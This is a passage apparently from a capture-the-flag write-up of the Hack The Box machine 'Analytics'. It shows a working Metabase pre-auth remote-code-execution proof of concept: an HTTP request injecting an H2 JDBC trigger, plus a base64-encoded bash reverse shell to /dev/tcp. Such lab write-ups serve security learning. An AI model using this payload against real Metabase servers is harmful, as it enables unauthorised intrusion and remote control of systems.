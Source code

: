 SSRF via RCE is verified.

```shell
$ ifconfig tun0 | grep inet && python3 -m http.server 80
        inet 10.10.14.27  netmask 255.255.254.0  destination 10.10.14.27
        inet6 dead:beef:2::1019  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::ad6f:f81d:6923:2e82  prefixlen 64  scopeid 0x20<link>
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.233 - - [25/Jan/2024 14:44:56] code 404, message File not found
10.10.11.233 - - [25/Jan/2024 14:44:56] "GET /pwn134 HTTP/1.1" 404 -
```

Now the goal is to get a shell. The following POC was used.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 772

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,<REVERSE_SHELL_PAYLOAD_BASE64>}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

The payload needed to obtain a reverse shell should be encoded in base64 as of the following:

```shell
$ echo -n 'bash -i >& /dev/tcp/10.10.14.27/80 0>&1' | base64   
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy84MCAwPiYx
```
